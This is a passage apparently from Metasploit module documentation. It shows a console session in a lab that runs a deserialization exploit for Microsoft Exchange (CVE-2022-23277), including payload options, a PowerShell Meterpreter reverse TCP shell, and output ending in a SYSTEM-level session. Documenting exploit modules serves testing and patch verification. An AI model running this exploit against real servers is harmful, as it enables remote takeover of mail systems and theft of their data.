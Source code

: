 ```
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
[+] The target appears to be vulnerable. Exchange Server 15.2.986.15 is vulnerable to CVE-2022-23277
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAACLmD9luiUIToCqtjHJMHTFAAADDlsC
[+] ID value for Inbox folder is AQMkAGMzMmEwZDQyLTJmMmYtNDdlNi04Nzg0LTNiMmNmMTkwZmNjAGIALgAAAwy2SlsLo7NNtRvmAZGoLDABAIuYP2W6JQhOgKq2MckwdMUAAAIBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[+] Successfully deleted the user configuration object associated with the Inbox folder!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:63854) at 2022-08-16 15:49:45 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : EXCHANGE2019
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x86/windows
meterpreter > 
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b
